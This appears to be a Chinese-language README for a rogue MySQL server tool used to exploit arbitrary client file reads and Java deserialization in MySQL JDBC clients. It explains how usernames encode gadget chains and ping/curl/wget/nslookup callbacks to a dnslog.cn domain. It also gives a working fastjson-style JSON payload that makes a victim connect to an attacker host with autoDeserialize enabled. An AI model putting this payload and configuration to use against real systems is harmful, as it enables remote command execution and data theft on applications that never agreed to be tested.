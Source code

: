 # MySQL Fake Server
修改自项目：https://github.com/fnmsd/MySQL_Fake_Server

## 用途

1. MySQL服务端读取客户端文件漏洞利用
2. MySQL JDBC客户端Java反序列化漏洞利用

## DNSLOG魔改说明

用户名：`d_[反序列化链简称]_[探测方式]_[dnslog的ID]`

反序列化链有：cb1-cb2，cc1-cc10 等都可以

探测方式：

- p：ping
- c：curl
- w：wget
- n：nslookup

在config.json中配置dnslog域名，并给一个ID值，例如ID是q2z1p8

```json
    "dnslog":{
        "q2z1p8":"q2z1p8.dnslog.cn"
    }
```

例如：`d_cb1_p_q2z1p8`，意思是使用CB1链执行ping命令，探测q2z1p8.dnslog.cn域名

效果：

```json
{
    "x": {
        "@type": "com.mysql.jdbc.JDBC4Connection",
        "hostToConnectTo": "xx.xx.xx.xx",
        "portToConnectTo": 3306,
        "info": {
            "user": "d_cc4_p_q2z1p8",
            "password": "ubuntu",
            "useSSL": "false",
            "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
            "autoDeserialize": "true"
        },
        "databaseToConnectTo": "mysql",
        "url": ""
    }
}
```

![image-20221222185551148](./README.assets/image-20221222185551148.png)